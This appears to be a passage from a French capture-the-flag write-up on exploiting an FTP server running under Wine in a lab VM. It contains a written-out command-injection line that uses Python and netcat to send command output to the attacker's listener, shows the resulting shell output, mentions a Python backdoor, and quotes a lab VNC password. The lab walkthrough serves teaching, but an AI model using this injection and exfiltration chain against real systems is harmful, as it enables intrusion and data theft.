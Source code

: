 Comme le serveur FTP semble être exécuté dans un environnement Wine assez basique, le mieux est d'exécuter le programme depuis Wine aussi et voir ce qu'il est possible d'un faire.  

Et si vous tapez *help* après avoir lancé l'invite de commande avec *wine cmd.exe* vous verrez qu'on ne peut pas faire grand chose...  

Après avoir bien fouillé j'ai trouvé que l'on peut appeler des programmes Unix avec *start /unix* mais l'utilisation des PIPE entre deux commandes ne fonctionnait pas comme attendu (si on tente d'exécuter une commande et d'envoyer l'output via un netcat, la connexion sortante s'établie mais se ferme aussitôt sans envoyer les données).  

Je suppose que l'output des commandes Unix n'est pas sensé passer via la PIPE Windows... quoiqu'il en soit le problème est résolu si on parvient à tout "piper" dans une même commande Unix :  

```plain
ftp>http: & start /unix /usr/bin/python -c "import os;os.system('id | netcat 192.168.1.6 7777')"
BugReport Link Sent to Bob...
```

Et là qui voilà ?  

```plain
ncat -l -p 7777 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.1.19.
Ncat: Connection from 192.168.1.19:48402.
uid=1000(b0b) gid=1001(b0b) groups=1001(b0b)
```

On trouve une clé privée SSH pour l'utilisateur. D'ailleurs un serveur SSH est en écoute sur localhost sur le port 65122. Même après un socat pour rediriger la connexion on ne parvient pas pour autant à se connecter. Une backdoor python classique fera bien l'affaire.  

*b0b* dispose de plusieurs fichiers dans son *Desktop/* qui sont respectivement *notes.txt*, *pwds.txt* et *.save~* dont voici les contenus :  

```plain
These are my notes...
---------------------
I prefer the old fasioned ways of doing things if I'm honest

1. Remember to prank Jeff with Alice :D

2. Buy Metallica tickets for me and Alice for next month.

3. Call Mom for her birthday on Thursday, and remeber to take flowers at the weekend.

4. Draft a resignation letter as Jeff to send to Mr Cheong. LOL :D
```

```plain
## Reminder to self!
I moved all my passwords to a new password manager
```

```plain
## Reminder to self!
Get a password manager!

VNC-PASS:Al1ce1smyB3stfi3nd$12345qwert
```
